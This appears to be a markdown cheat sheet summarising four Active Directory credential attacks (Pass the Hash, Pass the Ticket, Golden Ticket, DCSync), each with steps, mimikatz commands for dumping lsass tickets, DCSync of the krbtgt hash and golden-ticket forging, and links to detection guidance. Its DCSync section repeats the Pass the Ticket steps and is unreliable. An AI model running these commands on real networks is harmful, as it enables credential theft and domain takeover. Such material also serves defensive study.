 # Odin Project - Cyberattacks in a nutshell

## Pass the Hash

Abusing the challenge-and-response nature of NTLM to authenticate as a user with only the NTLM hash of the user’s password.

1) Steal password hashes (most common way to do that is extracting hashes from ```lsass.exe``` but you need to have administrative privileges on the computer)
2) Use the pass-the-hash technique to authenticate as the compromised user (by using ```mimikatz sekurlsa::pth``` for example)

More information, demonstration and ways to detect, mitigate and respond: https://attack.stealthbits.com/pass-the-hash-attack-explained


## Pass the Ticket

Using stolen Kerberos tickets to authenticate to resources as a user without compromising that user’s password.

1) Extract Kerberos tickets from ```lsass.exe``` (by using ```mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"``` for example)
2) Inject the stolen TGT into your own session (by using ```mimikatz.exe kerberos::ptt```)

More information, demonstration and ways to detect, mitigate and respond: https://attack.stealthbits.com/pass-the-ticket


## Golden Ticket

Compromising the ```krbtgt``` user hash to create Kerberos tickets as if you were Active Directory: issuing tickets for users that don’t exist, adding users to groups in which they don’t belong, or issuing tickets with lifetimes far beyond the configured maximum.

The Golden Ticket recipe contains 3 elements:
- Domain name
- Domain SID
- ```krbtgt``` user password hash

1) Compromise the ```krbtgt``` Password Hash (by using ```mimikatz.exe "lsadump::dcsync /user:DOMAIN\KRBTGT"``` for example)
2) Forge Kerberos tickets like TGT using the Golden Ticket (```krbtgt``` Password Hash) with tools like ```mimikatz``` or ```impacket``` (example: ```mimikatz.exe "kerberos::golden /domain:[DOMAIN] /sid:[SID] /aes256:[KRBTGT hash] /user:NonExistentUser /groups:513,2668 /ptt"```)

More information, demonstration and ways to detect, mitigate and respond: https://attack.stealthbits.com/how-golden-ticket-attack-works


## DCSync

Using the Directory Replication Service (DRS) Remote Protocol to replicate data (including credentials) from Active Directory.

1) Extract Kerberos tickets from ```lsass.exe``` (by using ```mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"``` for example)
2) Inject the stolen TGT into your own session (by using ```mimikatz.exe kerberos::ptt```)

More information, demonstration and ways to detect, mitigate and respond: https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync
